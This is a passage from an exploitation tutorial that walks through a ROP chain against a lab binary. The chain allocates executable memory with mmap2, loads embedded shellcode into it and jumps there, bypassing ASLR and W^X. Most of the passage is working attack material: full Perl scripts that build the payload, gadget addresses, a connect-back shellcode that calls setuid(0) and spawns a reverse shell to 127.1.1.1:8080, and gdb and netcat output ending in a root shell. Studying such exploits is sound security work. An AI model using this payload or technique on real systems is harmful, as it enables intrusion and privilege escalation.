0x80488b5 <foo+9>: sub esp,0x4
0x80488b8 <foo+12>: push DWORD PTR [ebp+0x8]
0x80488bb <foo+15>: lea eax,[ebp-0x208]
0x80488c1 <foo+21>: push eax
0x80488c2 <foo+22>: push 0x80bc748
0x80488c7 <foo+27>: call 0x804e840 <printf>
0x80488cc <foo+32>: add esp,0x10
0x80488cf <foo+35>: sub esp,0x8
0x80488d2 <foo+38>: push DWORD PTR [ebp+0x8]
0x80488d5 <foo+41>: lea eax,[ebp-0x208]
0x80488db <foo+47>: push eax
0x80488dc <foo+48>: call 0x80481b0
0x80488e1 <foo+53>: add esp,0x10
0x80488e4 <foo+56>: mov eax,0x0
0x80488e9 <foo+61>: leave
0x80488ea <foo+62>: ret
0x80488eb <main>: lea ecx,[esp+0x4]
(gdb) b *0x80488dc
Breakpoint 1 at 0x80488dc: file StackBasedOverflow.c, line 19.
(gdb) b *0x80488e1
Breakpoint 2 at 0x80488e1: file StackBasedOverflow.c, line 19.
(gdb) b *0x80488ea
Breakpoint 3 at 0x80488ea: file StackBasedOverflow.c, line 21.
(gdb) r "$(./rop_chain_1.pl)"
Starting program: /home/snake/StackBasedOverflow "$(./rop_chain_1.pl)"
[buffer:0xffffd510] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����J����������&��=�
����J������� _��������������&�
����J�?����J��������������
Breakpoint 1, 0x080488dc in foo (str=0xffffd990 'A' <repeats 200 times>...) at StackBasedOverflow.c:19
19 strcpy(buffer, str);
Below, a dump of the stack at the first breakpoint, starting
from the address pointed by
ebp
before the stack corruption.
In red, the return address of the
foo()
function.
(gdb) x/16xw $ebp
0xffffd718: 0xffffd738 0x0804892b 0xffffd990 0x00000000
0xffffd728: 0x00000000 0x00000002 0x080ec550 0xffffd750
0xffffd738: 0x00000000 0x08048b4f 0x080ec504 0x00000000
0xffffd748: 0x00000000 0x08048b4f 0x00000002 0xffffd7c4
Here, a dump of the stack at the second breakpoint, at the
same location, after the stack corruption. The injected payload
ROP CHAIN 1
is signaled in red and start at the location of the
return address of the
foo()
function.
(gdb) c
Continuing.
Breakpoint 2, 0x080488e1 in foo (str=0xffffffff <error: Cannot access memory at address 0xffffffff>) at StackBasedOverflow.c:19
19 strcpy(buffer, str);
(gdb) x/48xw 0xffffd718
0xffffd718: 0x41414141 0x080481a9 0xffffffff 0x080d8b3d
0xffffd728: 0x080db9df 0xffffffff 0x0806ed4a 0xffffff9f
0xffffd738: 0x0809c5a2 0x080b9526 0xffffffdd 0x0806ed4a
0xffffd748: 0xffffffff 0x0809c5e3 0x0805c05f 0x08048480
0xffffd758: 0xffffffff 0x080483e6 0xffffffff 0x0806c09c
0xffffd768: 0x080b9526 0xffffffff 0x0806ed4a 0xffffff3f
0xffffd778: 0x0805429c 0x0806ed4a 0xffffffff 0x0805c9f7
0xffffd788: 0x0805c9f7 0x0805c9f7 0x0805c9f7 0x0805c9f7
0xffffd798: 0x0805c9f7 0x0805c9f7 0x0806f490 0x00000000
0xffffd7a8: 0xffffd7c4 0x08048f70 0x08049010 0x00000000
0xffffd7b8: 0xffffd7bc 0x00000000 0x00000002 0xffffd918
0xffffd7c8: 0xffffd990 0x00000000 0xffffdc25 0xffffdc3c
Below, a dump of the stack at the third breakpoint, starting at
the address pointed by
esp
, just before the
foo()
function return.
ROP CHAIN 1
is in place and the code to prepare
the mmap2 syscall will be executed.
(gdb) c
Continuing.
Breakpoint 3, 0x080488ea in foo (str=0xffffffff <error: Cannot access memory at address 0xffffffff>) at StackBasedOverflow.c:21
21 }
(gdb) x/i $eip
=> 0x80488ea <foo+62>: ret
(gdb) x/48xw $esp
0xffffd71c: 0x080481a9 0xffffffff 0x080d8b3d 0x080db9df
0xffffd72c: 0xffffffff 0x0806ed4a 0xffffff9f 0x0809c5a2
0xffffd73c: 0x080b9526 0xffffffdd 0x0806ed4a 0xffffffff
0xffffd74c: 0x0809c5e3 0x0805c05f 0x08048480 0xffffffff
0xffffd75c: 0x080483e6 0xffffffff 0x0806c09c 0x080b9526
0xffffd76c: 0xffffffff 0x0806ed4a 0xffffff3f 0x0805429c
0xffffd77c: 0x0806ed4a 0xffffffff 0x0805c9f7 0x0805c9f7
0xffffd78c: 0x0805c9f7 0x0805c9f7 0x0805c9f7 0x0805c9f7
0xffffd79c: 0x0805c9f7 0x0806f490 0x00000000 0xffffd7c4
0xffffd7ac: 0x08048f70 0x08049010 0x00000000 0xffffd7bc
0xffffd7bc: 0x00000000 0x00000002 0xffffd918 0xffffd990
0xffffd7cc: 0x00000000 0xffffdc25 0xffffdc3c 0xffffdc47
Next, the
ret
instruction pop the address of the first
payload gadget in the instruction pointer and the
ROP CHAIN 1
is unrolled.
(gdb) nexti
0x080481a9 in _init ()
(gdb) x/2i $eip
=> 0x80481a9 <_init+33>: pop ebx
0x80481aa <_init+34>: ret
Then, a breakpoint is set at the last
int 80, ret
gadget of
ROP CHAIN 1
to see if the mmap2 syscall preparations are progressing as planned.
(gdb) b *0x0806f490
Breakpoint 4 at 0x806f490
(gdb) c
Continuing.
Breakpoint 4, 0x0806f490 in _dl_sysinfo_int80 ()
(gdb) x/2i $eip
=> 0x806f490 <_dl_sysinfo_int80>: int 0x80
0x806f492 <_dl_sysinfo_int80+2>: ret
(gdb) i r
eax 0xc0 192
ecx 0x60 96
edx 0x6 6
ebx 0x0 0
esp 0xffffd7a4 0xffffd7a4
ebp 0x0 0x0
esi 0x22 34
edi 0xffffffff -1
eip 0x806f490 0x806f490 <_dl_sysinfo_int80>
eflags 0x206 [ PF IF ]
cs 0x23 35
ss 0x2b 43
ds 0x2b 43
es 0x2b 43
fs 0x0 0
gs 0x63 99
All the values required for the
mmap2
syscall are strored in
the right registers and the
int 0x80
instruction will switch
in kernel mode. Below, the return value of the syscall stored in
eax
is displayed and points to a new memory area.
(gdb) nexti
0x0806f492 in _dl_sysinfo_int80 ()
(gdb) x/i $eip
=> 0x806f492 <_dl_sysinfo_int80+2>: ret
(gdb) i r eax
eax 0xf7ff9000 -134246400
(gdb) x/32xw $eax
0xf7ff9000: 0x00000000 0x00000000 0x00000000 0x00000000
0xf7ff9010: 0x00000000 0x00000000 0x00000000 0x00000000
0xf7ff9020: 0x00000000 0x00000000 0x00000000 0x00000000
0xf7ff9030: 0x00000000 0x00000000 0x00000000 0x00000000
0xf7ff9040: 0x00000000 0x00000000 0x00000000 0x00000000
0xf7ff9050: 0x00000000 0x00000000 0x00000000 0x00000000
0xf7ff9060: 0x00000000 0x00000000 0x00000000 0x00000000
0xf7ff9070: 0x00000000 0x00000000 0x00000000 0x00000000
7.3 - ROP CHAIN 2: Shellcode Loader
The second part of the payload is responsible for loading an embedded
shellcode in the new memory area allocated by
ROP CHAIN 1
.
For this purpose,
ROP CHAIN 2
does this by loading an embedded shellcode
by group of 4 byte in the new memory area.
The third part of the payload is responsible for redirecting the
execution path in the memory area filed with the shellcode by
ROP CHAIN 2
. But, to do this redirection
ROP CHAIN 3
needs to know the address of the new memory area where the embedded
shellcode is loaded. To this end,
ROP CHAIN 2
start by save
the return value of the mmap2 syscall in the
.data
section.
This area is not impacted by the ASLR and so it is loaded at a
constant address at each execution. So, this address can be hardcoded in the
ROP chain. The executable file headers provides the start address of the
.data
section.
$ readelf -S StackBasedOverflow | grep " .data "
[24] .data PROGBITS 080ec540 0a3540 000f00 00 WA 0 0 32
The embedded shellcode used here is a connect back shellcode which
open a connection to 127.1.1.1 on the port 8080. Its source
connect_back_shellcode.asm [9]
is available on my GitHub repository.
$ nasm connect_back_shellcode.asm
$ hexdump -C connect_back_shellcode
00000000 31 c0 b0 a4 31 db 31 c9 31 d2 cd 80 6a 66 58 31 |1...1.1.1...jfX1|
00000010 db 43 99 52 6a 01 6a 02 89 e1 cd 80 96 6a 66 58 |.C.Rj.j......jfX|
00000020 43 68 7f 01 01 01 66 68 50 50 66 53 89 e1 6a 10 |Ch....fhPPfS..j.|
00000030 51 56 89 e1 43 cd 80 87 f3 6a 02 59 b0 3f cd 80 |QV..C....j.Y.?..|
00000040 49 79 f9 b0 0b 52 68 2f 2f 73 68 68 2f 62 69 6e |Iy...Rh//shh/bin|
00000050 89 e3 52 89 e2 53 89 e1 cd 80 |..R..S....|
Below, the selected gadgets obtained with ROPgadget added to the first script to build
ROP CHAIN 2
.
0x080d88ad : inc ecx ; ret
0x08063793 : dec eax ; ret
0x080681f0 : add eax, ecx ; ret
0x0805426b : mov dword ptr [edx], eax ; ret
0x08053142 : mov dword ptr [eax + 4], edx ; ret
Below, the script which build
ROP CHAIN 1
and
ROP CHAIN 2
and print it to the standard output.
rop_chain_2.pl
#!/usr/bin/perl
use strict;
use warnings;
my $binary_name = "stackbasedoverflow";
my $padding_overflow = 524;
my $buffer = "";
my $ffffffff = "\xff\xff\xff\xff";
# @data section
my $data_section_addr = "\x40\xc5\x0e\x08"; # 0x080ec540
# connect-back shellcode
# to 127.01.01.01 port 8080
my @shellcode = (
"\x31\xc0\xb0\xa4", "\x31\xdb\x31\xc9", "\x31\xd2\xcd\x80", "\x6a\x66\x58\x31",
"\xdb\x43\x99\x52", "\x6a\x01\x6a\x02", "\x89\xe1\xcd\x80", "\x96\x6a\x66\x58",
"\x43\x68\x7f\x01", "\x01\x01\x66\x68", "\x1f\x90\x66\x53", "\x89\xe1\x6a\x10",
"\x51\x56\x89\xe1", "\x43\xcd\x80\x87", "\xf3\x6a\x02\x59", "\xb0\x3f\xcd\x80",
"\x49\x79\xf9\xb0", "\x0b\x52\x68\x2f", "\x2f\x73\x68\x68", "\x2f\x62\x69\x6e",
"\x89\xe3\x52\x89", "\xe2\x53\x89\xe1", "\xcd\x80\x90\x90");
# gadgets
my $pop_ebx = "\xa9\x81\x04\x08"; # 0x080481a9 : pop ebx ; ret
my $pop_ecx = "\xdf\xb9\x0d\x08"; # 0x080db9df : pop ecx ; ret
my $pop_edx = "\x4a\xed\x06\x08"; # 0x0806ed4a : pop edx ; ret
my $pop_edi = "\x80\x84\x04\x08"; # 0x08048480 : pop edi ; ret
my $pop_ebp = "\xe6\x83\x04\x08"; # 0x080483e6 : pop ebp ; ret
my $pop_eax = "\x26\x95\x0b\x08"; # 0x080b9526 : pop eax ; ret
my $inc_ebx = "\x3d\x8b\x0d\x08"; # 0x080d8b3d : inc ebx ; ret
my $inc_edx = "\xf7\xc9\x05\x08"; # 0x0805c9f7 : inc edx ; ret
my $inc_ebp = "\x9c\xc0\x06\x08"; # 0x0806c09c : inc ebp ; ret
my $inc_ecx = "\xad\x88\x0d\x08"; # 0x080d88ad : inc ecx ; ret
my $dec_eax = "\x93\x37\x06\x08"; # 0x08063793 : dec eax ; ret
my $mov_esi_edx = "\x5f\xc0\x05\x08"; # 0x0805c05f : mov esi, edx ; ret
my $sub_eax_edx = "\x9c\x42\x05\x08"; # 0x0805429c : sub eax, edx ; ret
my $add_eax_ecx = "\xf0\x81\x06\x08"; # 0x080681f0 : add eax, ecx ; ret
my $int_80 = "\x90\xf4\x06\x08"; # 0x0806f490 : int 0x80 ; ret
my $mov_aedx_eax = "\x6b\x42\x05\x08"; # 0x0805426b : mov dword ptr [edx], eax ; ret
my $mov_aeax4_edx = "\x42\x31\x05\x08"; # 0x08053142 : mov dword ptr [eax + 4], edx ; ret
my $sub_ecx_edx__not_eax__and_eax_ecx = "\xa2\xc5\x09\x08"; # 0x0809c5a2 : sub ecx, edx ; not eax ; and eax, ecx ; ret
my $sub_edx_eax__mov_eax_edx__sar_eax_0x10 = "\xe3\xc5\x09\x08"; # 0x0809c5e3 : sub edx, eax ; mov eax, edx ; sar eax, 0x10 ; ret
# gadget use for debug
my $nop = "\x0f\x2f\x05\x08"; # 0x08052f0f : nop ; ret
# set the stack padding overflow
$buffer = 'A' x $padding_overflow;
#********************
# memory allocator
#********************
# mmap(0,sizeof(shellcode),prot_exec|prot_write,map_anonymous|map_private,-1,0);
# arg1 : unsigned long addr = 0
$buffer .= $pop_ebx; # ebx = 0xffffffff
$buffer .= $ffffffff;
$buffer .= $inc_ebx; # ebx = 0x00000000
# arg2 : unsigned long len = sizeof(shellcode)
$buffer .= $pop_ecx; # ecx = 0xffffffff
$buffer .= $ffffffff;
$buffer .= $pop_edx; # edx = 0xffffff9f
$buffer .= "\x9f\xff\xff\xff";
$buffer .= $sub_ecx_edx__not_eax__and_eax_ecx; # ecx = 0x00000060
# arg4 : unsigned long flags = MAP_ANONYMOUS|MAP_PRIVATE
$buffer .= $pop_eax; # eax = 0xffffffdd
$buffer .= "\xdd\xff\xff\xff";
$buffer .= $pop_edx; # edx = 0xffffffff
$buffer .= $ffffffff;
$buffer .= $sub_edx_eax__mov_eax_edx__sar_eax_0x10; # edx = 0x00000022
$buffer .= $mov_esi_edx;
# arg5 : unsigned long fd = -1
$buffer .= $pop_edi; # edi = 0xffffffff
$buffer .= $ffffffff;
# arg6 : unsigned long offset = 0
$buffer .= $pop_ebp; # esi = 0xffffffff
$buffer .= $ffffffff;
$buffer .= $inc_ebp; # esi = 0x00000000
# set the syscall number in eax
$buffer .= $pop_eax; # eax = 0xffffffff
$buffer .= $ffffffff;
$buffer .= $pop_edx; # edx = 0xffffff3f
$buffer .= "\x3f\xff\xff\xff";
$buffer .= $sub_eax_edx; # eax = 0x000000c0
# arg3 : unsigned long prot = PROT_EXEC|PROT_WRITE
$buffer .= $pop_edx; # edx = 0xffffffff
$buffer .= $ffffffff;
$buffer .= $inc_edx x 7; # edx = 0x00000006
# perform the mmap2 syscall
$buffer .= $int_80; # eax = @new_executable_memory
#********************
# shellcode loader
#********************
# save @new_executable_memory on @data
$buffer .= $pop_edx; # edx = @data
$buffer .= $data_section_addr;
$buffer .= $mov_aedx_eax; # [@data] = @new_executable_memory
$buffer .= $pop_ecx; # ecx = 0xffffffff
$buffer .= $ffffffff;
$buffer .= $inc_ecx x 5; # ecx = 0x00000004
$buffer .= $dec_eax x 4; # eax = @new_executable_memory - 4
$buffer .= $pop_edx; # edx = "\x31\xc0\xb0\xa4"
$buffer .= $shellcode[0];
$buffer .= $mov_aeax4_edx; # [@new_executable_memory] = "\x31\xc0\xb0\xa4"
for (my $i = 1; $i < 23; $i++)
{
$buffer .= $add_eax_ecx; # eax = @new_executable_memory + 4 + (4 x $i)
$buffer .= $pop_edx; # edx = $shellcode[$i]
$buffer .= $shellcode[$i];
$buffer .= $mov_aeax4_edx; # [@new_executable_memory + $i] = $shellcode[$i]
}
# debug point
$buffer .= $nop;
print $buffer;
Below, the inspection with gdb of the payload injected in the target program.
Breakpoints are set before and after the stack corruption and
the stack is next dumped.
$ gdb -q StackBasedOverflow
Reading symbols from StackBasedOverflow...done.
(gdb) b *0x80488dc
Breakpoint 1 at 0x80488dc: file StackBasedOverflow.c, line 19.
(gdb) b *0x80488e1
Breakpoint 2 at 0x80488e1: file StackBasedOverflow.c, line 19.
(gdb) r "$(./rop_chain_2.pl)"
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/snake/StackBasedOverflow "$(./rop_chain_2.pl)"
[buffer:0xffffd3f0] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����J������AAAA&�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����=�
���J����� _����������&�
����J1��BJ1�1�BJ1��BJjfX1BJ�C�RBJjjBJ���BJ�jfXBJChBJfhBJ�fSBJ��jBJQV��BJC̀�BJ�jYBJ�?̀BJIy�BJ�
Rh/BJ/shhBJ/binBJ��R�BJ�S��BJ��B�@CFr
Breakpoint 1, 0x080488dc in foo (str=0xffffd861 'A' <repeats 200 times>...) at StackBasedOverflow.c:19
19 strcpy(buffer, str);
(gdb) x/16xw $ebp
0xffffda48: 0xffffda68 0x0804892b 0xffffdca9 0x00000000
0xffffda58: 0x00000000 0x00000002 0x080ec550 0xffffda80
0xffffda68: 0x00000000 0x08048b4f 0x080ec504 0x00000000
0xffffda78: 0x00000000 0x08048b4f 0x00000002 0xffffdaf4
Below, the dump of the corrupted stack with the payload.
On the following dump,
ROP CHAIN 1
is colored in green,
ROP CHAIN 2
in blue and the embedded shellcode is colored in red.
An extra gadget in yellow, is added at the end of the ROP chain.
This last gadget pointe to a
nop
instruction to facilitate the
debugging task.
(gdb) c
Continuing.
Breakpoint 2, 0x080488e1 in foo (str=0xffffffff <error: Cannot access memory at address 0xffffffff>) at StackBasedOverflow.c:19
19 strcpy(buffer, str);
(gdb) x/160xw $ebp
0xffffd5f8: 0x41414141 0x080481a9 0xffffffff 0x080d8b3d
0xffffd608: 0x080db9df 0xffffffff 0x0806ed4a 0xffffff9f
0xffffd618: 0x0809c5a2 0x080b9526 0xffffffdd 0x0806ed4a
0xffffd628: 0xffffffff 0x0809c5e3 0x0805c05f 0x08048480
0xffffd638: 0xffffffff 0x080483e6 0xffffffff 0x0806c09c
0xffffd648: 0x080b9526 0xffffffff 0x0806ed4a 0xffffff3f
0xffffd658: 0x0805429c 0x0806ed4a 0xffffffff 0x0805c9f7
0xffffd668: 0x0805c9f7 0x0805c9f7 0x0805c9f7 0x0805c9f7
0xffffd678: 0x0805c9f7 0x0805c9f7 0x0806f490 0x0806ed4a
0xffffd688: 0x080ec540 0x0805426b 0x080db9df 0xffffffff
0xffffd698: 0x080d88ad 0x080d88ad 0x080d88ad 0x080d88ad
0xffffd6a8: 0x080d88ad 0x08063793 0x08063793 0x08063793
0xffffd6b8: 0x08063793 0x0806ed4a 0xa4b0c031 0x08053142
0xffffd6c8: 0x080681f0 0x0806ed4a 0xc931db31 0x08053142
0xffffd6d8: 0x080681f0 0x0806ed4a 0x80cdd231 0x08053142
0xffffd6e8: 0x080681f0 0x0806ed4a 0x3158666a 0x08053142
0xffffd6f8: 0x080681f0 0x0806ed4a 0x529943db 0x08053142
0xffffd708: 0x080681f0 0x0806ed4a 0x026a016a 0x08053142
0xffffd718: 0x080681f0 0x0806ed4a 0x80cde189 0x08053142
0xffffd728: 0x080681f0 0x0806ed4a 0x58666a96 0x08053142
0xffffd738: 0x080681f0 0x0806ed4a 0x017f6843 0x08053142
0xffffd748: 0x080681f0 0x0806ed4a 0x68660101 0x08053142
0xffffd758: 0x080681f0 0x0806ed4a 0x5366901f 0x08053142
0xffffd768: 0x080681f0 0x0806ed4a 0x106ae189 0x08053142
0xffffd778: 0x080681f0 0x0806ed4a 0xe1895651 0x08053142
0xffffd788: 0x080681f0 0x0806ed4a 0x8780cd43 0x08053142
0xffffd798: 0x080681f0 0x0806ed4a 0x59026af3 0x08053142
0xffffd7a8: 0x080681f0 0x0806ed4a 0x80cd3fb0 0x08053142
0xffffd7b8: 0x080681f0 0x0806ed4a 0xb0f97949 0x08053142
0xffffd7c8: 0x080681f0 0x0806ed4a 0x2f68520b 0x08053142
0xffffd7d8: 0x080681f0 0x0806ed4a 0x6868732f 0x08053142
0xffffd7e8: 0x080681f0 0x0806ed4a 0x6e69622f 0x08053142
0xffffd7f8: 0x080681f0 0x0806ed4a 0x8952e389 0x08053142
0xffffd808: 0x080681f0 0x0806ed4a 0xe18953e2 0x08053142
0xffffd818: 0x080681f0 0x0806ed4a 0x909080cd 0x08053142
0xffffd828: 0x08052f0f 0x6b636100 0x2f676e69 0x6b726f77
0xffffd838: 0x6568732f 0x6f636c6c 0x676e6964 0x504f522f
0xffffd848: 0x2d32302f 0x2d706f72 0x68746977 0x6568732d
0xffffd858: 0x6f636c6c 0x302f6564 0x65722d33 0x69736976
0xffffd868: 0x742f6e6f 0x532f706d 0x6b636174 0x65736142
Then, a breakpoint is set at
0x08052f0f
which correspond to the
following gadget
nop; ret
.
This gadget is used here only to debug the payload.
Next, the address of the new memory area is obtained by analysing the first
four byte of the
.data
section at
0x080ec540
. And a dump of the
memory is performed, where the shellcode is loaded by
ROP CHAIN 2
.
(gdb) b *0x08052f0f
Breakpoint 3 at 0x08052f0f
(gdb) c
Continuing.
Breakpoint 3, 0x08052f0f in ?? ()
(gdb) x/xw 0x080ec540
0x80ec540: 0xf7ff8000
(gdb) x/32xw 0xf7ff8000
0xf7ff8000: 0xa4b0c031 0xc931db31 0x80cdd231 0x3158666a
0xf7ff8010: 0x529943db 0x026a016a 0x80cde189 0x58666a96
0xf7ff8020: 0x017f6843 0x68660101 0x5366901f 0x106ae189
0xf7ff8030: 0xe1895651 0x8780cd43 0x59026af3 0x80cd3fb0
0xf7ff8040: 0xb0f97949 0x2f68520b 0x6868732f 0x6e69622f
0xf7ff8050: 0x8952e389 0xe18953e2 0x909080cd 0x00000000
0xf7ff8060: 0x00000000 0x00000000 0x00000000 0x00000000
0xf7ff8070: 0x00000000 0x00000000 0x00000000 0x00000000
The above dump shows that the new memory area is correctly
filled with the embedded shellcode and that the the base memory address
of the new memory area is corectly saved in the
.data
section.
7.4 - ROP CHAIN 3: EIP Redirect
The third part of the payload is responsible to redirect the process execution
flow to the shellcode loaded by
ROP CHAIN 2
.
It retrieves the start address of the new memory mapping saved previously in
the
.data
section and jump to this address. Then, more complex
operations are performed by the shellcode. It sets the root
UID to 0, opens a socket, starts a connection to
127.1.1.1 on the port 8080,
duplicates
STDERR
,
STDIN
and
STDOUT
on the socket descriptor and starts a shell.
Below, the selected gadgets obtained with ROPgadget are added to the
first script, used to build
ROP CHAIN 3
.
0x08048f43 : xor eax, eax ; ret
0x08097246 : add eax, dword ptr [edi] ; call eax
The following code is added at the end of the previous script and replace the debug line
$buffer .= $nop;
.
rop_chain_3.pl
# gadgets section
my $xor_eax_eax = "\x43\x8f\x04\x08"; # 0x08048f43 : xor eax, eax ; ret
my $add_eax_aedi_call_eax = "\x46\x72\x09\x08"; # 0x08097246 : add eax, dword ptr [edi] ; call eax
#********************
# shellcode caller
#********************
$buffer .= $pop_edi; # edi = @data
$buffer .= $data_section_addr;
$buffer .= $xor_eax_eax; # eax = 0x00000000
$buffer .= $add_eax_aedi_call_eax; # eax = @new_executable_memory
Then, a hardware breakpoint is set at
0x08097246
which correspond
to the following gadget
add eax, dword ptr [edi] ; call eax
used in
ROP CHAIN 3
. This gadget redirect the execution path of
the running process to the memory area where the embedded shellcode has
been loaded by
ROP CHAIN 2
.
$ gdb -q StackBasedOverflow
Reading symbols from StackBasedOverflow...done.
(gdb) b *main
Breakpoint 1 at 0x80488eb: file StackBasedOverflow.c, line 24.
(gdb) r "$(./rop_chain_3.pl)"
Starting program: /home/snake/StackBasedOverflow "$(./rop_chain_3.pl)"
Breakpoint 1, main (argc=2, argv=0xff95bdb4) at StackBasedOverflow.c:24
(gdb) delete 1
(gdb) hb *0x08097246
Hardware assisted breakpoint 2 at 0x8097246
(gdb) info break
Num Type Disp Enb Address What
2 hw breakpoint keep y 0x08097246 <_dl_relocate_object+3366>
(gdb) c
Continuing.
[buffer:0xffa8dd80] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA????J??????AAAA&?AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?????=?
???J????? _??????????&?
????J1??BJ1?1?BJ1??BJjfX1BJ?C?RBJjjBJ???BJ?jfXBJChBJfhBJ?fSBJ??jBJQV??BJC??BJ?jYBJ???BJIy?BJ?
Rh//shhBJ/binBJ??R?BJ?S??BJ??B?@CFr
Breakpoint 2, 0x08097246 in _dl_relocate_object ()
(gdb) x/2i $eip
=> 0x8097246 <_dl_relocate_object+3366>: add eax,DWORD PTR [edi]
0x8097248 <_dl_relocate_object+3368>: call eax
(gdb) nexti
(gdb) i r eax
eax 0xf7709000 -143618048
(gdb) x/32xw $eax
0xf7709000: 0xa4b0c031 0xc931db31 0x80cdd231 0x3158666a
0xf7709010: 0x529943db 0x026a016a 0x80cde189 0x58666a96
0xf7709020: 0x017f6843 0x68660101 0x5366901f 0x106ae189
0xf7709030: 0xe1895651 0x8780cd43 0x59026af3 0x80cd3fb0
0xf7709040: 0xb0f97949 0x2f68520b 0x6868732f 0x6e69622f
0xf7709050: 0x8952e389 0xe18953e2 0x909080cd 0x00000000
0xf7709060: 0x00000000 0x00000000 0x00000000 0x00000000
0xf7709070: 0x00000000 0x00000000 0x00000000 0x00000000
From an other shell, the netcat command is started in
listened mode to 127.1.1.1 on the port 80 and waits
for connection.
(gdb) nexti
0xf7709000 in ?? ()
(gdb) c
Continuing.
process 12666 is executing new program: /usr/bin/bash
warning: Could not load shared library symbols for linux-vdso.so.1.
Do you need "set solib-search-path" or "set sysroot"?
$ nc -v -l -p 8080 -s 127.1.1.1
Connection from 127.0.0.1:35160
whoami
snake
The exploit works and a shell pop in netcat.
Trying again out of gdb shows we are root.
$ ./StackBasedOverflow "$(./rop_chain_3.pl)"
[buffer:0xff8bb2f0] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����J������AAAA&�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����=�
���J����� _����������&�
����J1��BJ1�1�BJ1��BJjfX1BJ�C�RBJjjBJ���BJ�jfXBJChBJfhBJ�fSBJ��jBJQV��BJC̀�BJ�jYBJ�?̀BJIy�BJ�
Rh/BJ/shhBJ/binBJ��R�BJ�S��BJ��B�@CFr
$ nc -v -l -p 8080 -s 127.1.1.1
Connection from 127.0.0.1:35160
whoami
root
8 - Conclusion
As show here, ROP with shellcode can be used in some conditions to
bypass the ASLR and the W^X protections and to lead to an abitrary
code execution. This technique is interesting because implement an
exploit in full ROP is heavy and time consumming. Write the
three steps (memory mapping - copy code - execute code) in ROP
are easier than implement a complexe payload. Then, the injected
shellcode can performs the complexe operations and it can be not
dependent of the exploited binary instead of the part in ROP.
The exploit code presented here need the precense of two key conditons very
dependent of the security set up in the system.
-
1: The creation of an W+X memory region.
-
2: The knowledge of the base addresse of an executable segment.
The first condition is fullfilled in the major part of operating systems due
to the principal need of the JIT (just in time compilation) for the interpreted
languages. On Linux if PaX is installed and the
PAX_MPROTECT
flag [4]
activated,
this is not possible to map memory as writeable and executable.
The second condition is more difficult to fullfill but it's
possible when the memory address spaces of the target process
can be disclosed. Sometimes it can be done with an another
dedicated exploit (ex: Meltdown and Spectre),
by an other vulnerability in the process which
leak its memory map (ex: Heartbleed bug),
by a bad integration of the application with the ASLR
(ex: not use of -fpic, -fPIC, -fpie, -fPIE gcc options)
or by a low entropy of the ASLR.
9 - Links